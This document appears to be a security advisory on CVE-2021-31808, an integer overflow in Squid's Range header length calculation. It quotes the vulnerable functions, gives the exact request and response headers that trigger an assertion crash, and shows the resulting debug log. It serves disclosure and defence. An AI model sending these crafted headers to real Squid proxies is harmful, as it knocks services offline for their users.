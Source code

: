 # Integer Overflow in Range Header
The HTTP request header 'Range' is used when a client wishes to partially download (also known as *byte serving*) a file from a compliant HTTP server (RFC 7233 states that Range header handling is optional in HTTP/1.1). Examples for usage include resuming downloads, segmented updates, and video playback (being able to skip to the middle of a video without downloading the whole video first).

Squid is able to handle both multi-part ranges (such as, bytes 0-50 AND 100-150), and single part ranges (bytes 0-50 ONLY), and their subsequent '206 Partial Content' responses.

When Squid handles some requests with the `Range` header, it changes the `Content-Type` of the response to a `multipart/byteranges` response, which involves adding its own custom boundary, and re-calculating the `Content-Length` header as needed.

## The Issue
When a request is made with the `Range` header, the resulting *response*'s headers are parsed for its `Content-Length` in order to determine the "*full size*" of the content which *will* be served (say as a Squid-generated `206 Partial Content` response). The calculations for this procedure is handled in the function `ClientHttpRequest::mRangeCLen`, which is defined as the following (with a lot of content truncated):
```
int
ClientHttpRequest::mRangeCLen()
{
    int64_t clen = 0;
    HttpHdrRange::iterator pos = request->range->begin();
    while (pos != request->range->end()) {
        /* account for headers for this range */
        clientPackRangeHdr(&storeEntry()->mem().freshestReply(),
                           *pos, range_iter.boundary, &mb); // adds a custom Squid multipart boundary.
        clen += mb.size; // 
        /* account for range content */
        clen += (*pos)->length; // adds the content-length from the response header
        ++pos;
    }
    return clen;
}
```

The issue here is that despite the fact that calculations for the "*new*" `Content-Length` are using a 64-bit `int64_t` type, the function returns an `int` type, and thus an integer overflow is trivial.

This has implications in the `Http::Stream::buildRangeHeader` functions, which uses `ClientHttpRequest::mRangeCLen()` as follows:
```
void
Http::Stream::buildRangeHeader(HttpReply *rep) {
…
        int64_t actual_clen = -1;
…
            /* multipart! */
            /* generate boundary string */
            http->range_iter.boundary = http->rangeBoundaryStr();
            /* delete old Content-Type, add ours */
            hdr->delById(Http::HdrType::CONTENT_TYPE); 
            httpHeaderPutStrf(hdr, Http::HdrType::CONTENT_TYPE,
                              "multipart/byteranges; boundary=\"" SQUIDSTRINGPH "\"",
                              SQUIDSTRINGPRINT(http->range_iter.boundary));
            actual_clen = http->mRangeCLen();

            /* http->out needs to start where we want data at */
            http->out.offset = http->range_iter.currentSpec()->offset;
        }
        /* replace Content-Length header */
        assert(actual_clen >= 0);
…
}
```
As we can see, the number which `mRangeCLen` returns is used as an `int64_t` type, which, if negative, will cause an assertion.
Due to `mRangeCLen` returning an `int` rather than `int64_t`, it is trivial to cause this assertion with a specific request and reply.

With the request headers:
```
GET http://example.com/ HTTP/1.1\r\nRange: bytes=0-0,214743639-\r\n\r\n
```

and the response headers:
```
HTTP/1.1 200 OK\r\nContent-Length: 21474836480\r\n\r\n
```
the assertion will hit (debugging information provided for convenience):
```
2021/04/18 22:40:25.522| 64,3| HttpHdrRange.cc(388) canonize: HttpHdrRange::canonize: started with 2 specs, clen: 21474836480
2021/04/18 22:40:25.522| 64,5| HttpHdrRange.cc(124) outputInfo: HttpHdrRangeSpec::canonize: have: [0, 1) len: 1
2021/04/18 22:40:25.522| 64,5| HttpHdrRange.cc(124) outputInfo: HttpHdrRangeSpec::canonize: done: [0, 1) len: 1
2021/04/18 22:40:25.522| 64,5| HttpHdrRange.cc(124) outputInfo: HttpHdrRangeSpec::canonize: have: [214743639, 214743638) len: -1
2021/04/18 22:40:25.522| 64,5| HttpHdrRange.cc(124) outputInfo: HttpHdrRangeSpec::canonize: done: [214743639, 21474836480) len: 21260092841
2021/04/18 22:40:25.522| 64,3| HttpHdrRange.cc(358) getCanonizedSpecs: found 0 bad specs
2021/04/18 22:40:25.522| 64,3| HttpHdrRange.cc(343) merge: HttpHdrRange::merge: had 2 specs, merged 0 specs
2021/04/18 22:40:25.522| 64,3| HttpHdrRange.cc(393) canonize: HttpHdrRange::canonize: finished with 2 specs
2021/04/18 22:40:25.522| 33,3| Stream.cc(484) buildRangeHeader: range spec count: 2 virgin clen: 21474836480
2021/04/18 22:40:25.523| 24,6| SBuf.cc(99) assign: SBuf4710 from c-string, n=4294967295)
2021/04/18 22:40:25.523| 33,5| client_side.cc(758) clientPackRangeHdr: appending boundary: squid/6.0.0-VCS:020000000000000055EE0D0000000000
2021/04/18 22:40:25.523| 24,6| SBuf.cc(99) assign: SBuf4712 from c-string, n=4294967295)
2021/04/18 22:40:25.523| 33,6| client_side.cc(802) mRangeCLen: clientMRangeCLen: (clen += 94 + 1) == 95
2021/04/18 22:40:25.523| 33,5| client_side.cc(758) clientPackRangeHdr: appending boundary: squid/6.0.0-VCS:020000000000000055EE0D0000000000
2021/04/18 22:40:25.523| 24,6| SBuf.cc(99) assign: SBuf4714 from c-string, n=4294967295)
2021/04/18 22:40:25.524| 33,6| client_side.cc(802) mRangeCLen: clientMRangeCLen: (clen += 112 + 21260092841) == 21260093048
2021/04/18 22:40:25.524| 33,6| client_side.cc(747) clientPackTermBound: buf offset: 56
2021/04/18 22:40:25.524| assertion failed: Stream.cc:529: "actual_clen >= 0"
    current master transaction: master53
```

Note: this bug was found by both us and the Squid developers, albeit in different contexts. The Squid developers discovered this bug while fixing another bug, while we discovered it slightly afterwards during some haphazard automated testing.

This bug was assigned [CVE-2021-31808](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-31808)

